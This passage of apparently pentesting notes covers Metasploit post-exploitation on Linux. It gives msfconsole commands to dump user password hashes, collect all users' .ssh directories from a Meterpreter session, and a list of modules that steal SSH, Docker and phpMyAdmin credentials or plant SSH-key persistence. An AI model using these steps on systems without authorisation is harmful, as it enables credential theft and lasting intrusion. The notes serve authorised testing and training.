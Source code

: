 ```bash
search hashdump
use post/linux/gather/hashdump
info
# Description:
#   Post Module to dump the password hashes for all users on a Linux 
#   System
set SESSION 2
run
```

<figure><img src="../../../../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Some Post Exploitation <a href="#some-post-exploitation-1" id="some-post-exploitation-1"></a>

```bash
post/multi/gather/ssh_creds
post/multi/gather/docker_creds
post/linux/gather/hashdump
post/linux/gather/ecryptfs_creds
post/linux/gather/enum_psk
post/linux/gather/enum_xchat
post/linux/gather/phpmyadmin_credsteal
post/linux/gather/pptpd_chap_secrets
post/linux/manage/sshkey_persistence
```

* Enumerate **ssh** directories

```bash
search ssh_creds
use post/multi/gather/ssh_creds
info
# Description:
#   This module will collect the contents of all users' .ssh directories 
#   on the targeted machine. Additionally, known_hosts and 
#   authorized_keys and any other files are also downloaded. This module 
#   is largely based on firefox_creds.rb.
sessions
# Set the Meterpreter session
set SESSION 2
run
```
